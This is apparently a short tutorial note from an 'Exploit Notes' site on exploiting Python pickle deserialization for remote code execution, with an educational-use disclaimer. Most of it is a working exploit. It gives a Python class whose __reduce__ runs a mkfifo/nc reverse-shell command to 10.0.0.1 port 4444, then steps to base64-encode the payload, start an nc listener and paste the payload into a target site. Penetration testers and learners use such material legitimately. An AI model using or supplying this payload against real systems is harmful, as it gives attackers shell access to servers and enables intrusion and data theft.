```yaml
---
title: PYTHON PICKLE RCE
date: 2023-05-05 01:35:40 +/-TTTT
categories: [learning, web]
tags: [learning]     # TAG names should always be lowercase
---
```


The python “pickle” module, that serializes and deserializes a Python object, is vulnerable to remote code execution. If the website uses this module, we may be able to execute arbitrary code.

# Exploitation
Below is the Python script (”mypickle.py”) to generate the payload to reverse shell.

```PY
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 4444 > /tmp/f')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```
Now run this script to generate the Base64 payload.

```PY
python3 mypickle.py
```
Copy the ourput base64 string and paste it to where the payload affects in website.
Before reloading the web page, start a listener in local machine.
```
nc -lvnp 4444
```
Then reload the page. We should get a shell in local terminal.

# References
* https://davidhamann.de/2020/04/05/exploiting-python-pickle/

# Disclaimer
```
Exploit Notes are only for educational purpose or penetration testing, not attacking servers that you're not authorized. This site will not take any responsibility even if you attack the server illegally or cause damage unintentionally. Please use the contents in this site at your own risk.
The contents of this site are not original, but based on the information on the internet, the author actually tried and functioned. Although the author strives to post the latest information on the content of this site as much as possible, there is no guarantee that it will always be new.
```
